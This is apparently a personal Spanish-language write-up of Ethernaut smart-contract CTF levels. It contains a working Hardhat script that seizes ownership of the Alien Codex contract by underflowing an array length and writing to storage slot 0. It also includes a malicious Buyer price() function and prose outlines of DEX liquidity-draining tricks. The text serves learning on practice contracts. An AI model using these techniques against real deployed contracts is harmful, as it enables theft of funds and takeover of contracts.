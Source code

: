 # Comentarios y aprendizajes de resolver el ethernaut

## Alien Code X

Clave entender como funcionan los arrays dinámicos en solidity, es decir, los que se definen por ejemplo `bytes32[]`. En el slot de memoria correspondiente solo se va a guardar el tamaño del array en cuestión, pero la data se va a alojar en el `keccak(slot_id)`.

Imagino que luego solidity lo que hace es: si tengo que leer de la posición 15, voy a buscar el elemento en la dirección `keccak(slot_id) + 15`.

Para resolverlo hay que, de alguna manera, forzar a escribir en el slot 0 donde está el owner del contrato.

- slot_0
- .
- .
- slot_array = keccak(1) = 0xc89efdaa54c0f20c7adf612882df0950f5a951637e0307cdcb4c672f298b8bc6 = 90743482286830539503240959006302832933333810038750515972785732718729991261126

Es decir, cuando quiero escribir en el index 0 del array, en verdad estoy queriendo escribir en en slot 90743482286830539503240959006302832933333810038750515972785732718729991261126. Si escribo en MAX_SLOT_ID - 90743482286830539503240959006302832933333810038750515972785732718729991261126 escribiré en el slot 0, porque me voy a pasar por overflow.

```
    const [firstOwner, usurper] = await ethers.getSigners();

    const factory = await ethers.getContractFactory("Alien");
    const alien = await factory.deploy();
    const contractAddy = await alien.getAddress();

    await alien.makeContact();
    // Con este valor en el slot de storage 1, podre reemplazar el owner por el que yo quiero.
    const desiredStorageValueWithNewOwner = `0x000000000000000000000001${usurper.address.substring(
      2
    )}`;
    // Al hacer retract, por el underflow de uint, el contrato asume que el array codex tiene la capacidad llena.
    // Con eso, me dejara escribir con el metodo `revise` en cualquier dirección
    await alien.retract();

    // por como funciona el dynamic array storage, este hash es la dirección de memoria donde estan los datos del array de manera consecutiva.
    const secondSlotHash = ethers.keccak256(
      "0x0000000000000000000000000000000000000000000000000000000000000001"
    );
    const startArrayStorageDirection = ethers.toBigInt(secondSlotHash);
    const valorEnStorage = await ethers.provider.getStorage(
      contractAddy,
      startArrayStorageDirection
    );
    // Por definicion de solidity, todo contrato tiene 2^256 slots de memoria
    const MAX_CONTRACT_SLOT_ID = ethers.toBigInt(2) ** ethers.toBigInt(256);
    // MAX_CONTRACT_SLOT_ID - startArrayStorageDirection es la distancia que hay desde
    // el slot de memoria donde arrancan los valores del array, hasta que me paso por overflow
    // al primer slot de memoria (donde justo esta el valor del addres!!)
    await alien.revise(
      MAX_CONTRACT_SLOT_ID - startArrayStorageDirection,
      desiredStorageValueWithNewOwner
    );
    expect(await alien.owner()).to.equal(usurper.address);
```

## Denial

El contrato tiene un owner definido. Recibe fondos en ese contrato, y cualquiera pueda ejecutar la funciona withdraw que lo que hace es enviar un 1% de los fondos al owner, y otro 1% al que ejecuta la transacción.

Acá la papa está en que no se chequea el resultado del call al partner (adrede) para que eso no bloquee que le lleguen los fondos al owner.

```
function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }
```

Entonces si el partner es un contrato, y adentro hace cualquier fruta, eso queda en un loop donde nunca el owner puede extraer los fondos. Queda bloqueado. Para sortear eso, donde queremos que "no nos importe revertir" la mejor práctica sería ponerle un gaslimit al call a un contrato externo. Esto haría que revierta el call, pero como no nos importa el resultado, el owner seguiría recibiendo sus fondos.

### Buyer

Acá se define una interfaz que debe ser implementada por el msg.sender. El tema es que quien la implementa puede definir el comportamiento que sea, entonces muy probablemente con implementar la interfaz y hacer que el método view "price" devuelva un precio mayor al del contrato `Shop` sea suficiente.

Ok no, en específico dice que el precio debe ser menor.

Lo clave está en que al ser una función view (y no pure) la misma puede acceder al estado de otros contratos, entonces, se puede hacer algo de este estilo:

```
function price() external view returns (uint) {
        if (shop.isSold()) {
            return 50;
        }
        return 150;
    }
```

## Dex

Acá basicamente hay que engañar al DEX para llevarme toda la liquidez de alguno de los dos tokens. Se me ocurren algunas ideas:

- Por lo que voy probando, al no tener manejo de decimales el dex, se puede empezar a descontrolar el precio cuando me queden precios con coma. Por ejemplo, cuando me quede un precio de 2,4 el contrato siempre redondea a 2.
- Jugando un poco con los swaps, pude conseguir sacar toda la liquidez de uno de los tokens.

# DexTwo

- Acá al no haber un require de que el `from` o el `to` sean los tokens que tienen liquidez en el dex, puedo crear un erc20 falopa, transferirle liquidez al dex y swapear para que el precio se calcule a partir del erc20 falopa.
